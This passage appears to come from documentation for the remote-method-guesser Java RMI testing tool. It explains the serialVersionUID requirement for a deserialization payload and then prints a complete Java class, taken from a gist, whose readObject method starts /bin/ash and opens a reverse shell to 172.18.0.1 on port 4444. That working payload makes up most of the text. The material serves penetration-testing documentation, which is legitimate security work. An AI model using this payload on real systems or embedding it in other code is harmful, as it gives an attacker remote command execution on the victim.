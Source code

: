 *remote-method-guesser* expects the payload class to have a ``serialVersionUID`` of ``2L``, but apart from that you can do anything
within the ``readObject`` method of the class. For this demonstration, the following class definition was used, that spawns a reverse shell:

```java
// Taken from: https://gist.github.com/caseydunham/53eb8503efad39b83633961f12441af0

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.util.jar.Attributes;
import java.io.Serializable;
import java.io.ObjectInputStream;

public class Example implements Serializable
{
    private static int port = 4444;
    private static String cmd = "/bin/ash";
    private static String host = "172.18.0.1";
    private static final long serialVersionUID = 2L;

    private void readObject(ObjectInputStream aInputStream) throws ClassNotFoundException, IOException, Exception
    {
        Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s = new Socket(host,port);
        InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
        OutputStream po = p.getOutputStream(), so = s.getOutputStream();
        while(!s.isClosed()) {

            while(pi.available()>0)
                so.write(pi.read());

            while(pe.available()>0)
                so.write(pe.read());

            while(si.available()>0)
                po.write(si.read());

            so.flush();
            po.flush();
            Thread.sleep(50);

            try {
                p.exitValue();
                break;
            } catch (Exception e){}
        }

        p.destroy();
        s.close();
    }
}
```
